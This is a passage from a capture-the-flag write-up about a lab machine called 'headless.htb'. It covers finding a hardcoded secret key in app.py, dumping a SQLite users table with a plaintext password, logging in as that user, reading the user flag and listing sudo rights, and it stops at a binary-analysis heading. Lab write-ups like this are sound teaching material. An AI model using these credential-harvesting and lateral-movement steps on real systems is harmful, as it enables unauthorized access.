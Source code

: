 The `app.py` file contained:

```python
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:////var/www/html/database.db'
app.config['SECRET_KEY'] = 'SuperSecretKey123'
```

- The `SECRET_KEY` confirmed the weak cookie signature.
- A SQLite database was found at `/var/www/html/database.db`.

Dumped the database:

```bash
sqlite3 /var/www/html/database.db
sqlite> .tables
users  feedback
sqlite> select * from users;
1|dylan|password123
```

The user `dylan` had a password `password123`. Switched users:

```bash
su dylan
Password: password123
```

Alternatively, SSH:

```bash
ssh dylan@headless.htb
```

Retrieved the user flag:

```bash
cat /home/dylan/user.txt
<user_flag>
```

---

## Privilege Escalation

### Sudo Enumeration

Checked sudo privileges as `dylan`:

```bash
sudo -l
```

**Results:**

- `(root) NOPASSWD: /usr/bin/syscheck`

The `syscheck` binary could be run as root without a password.

### Binary Analysis
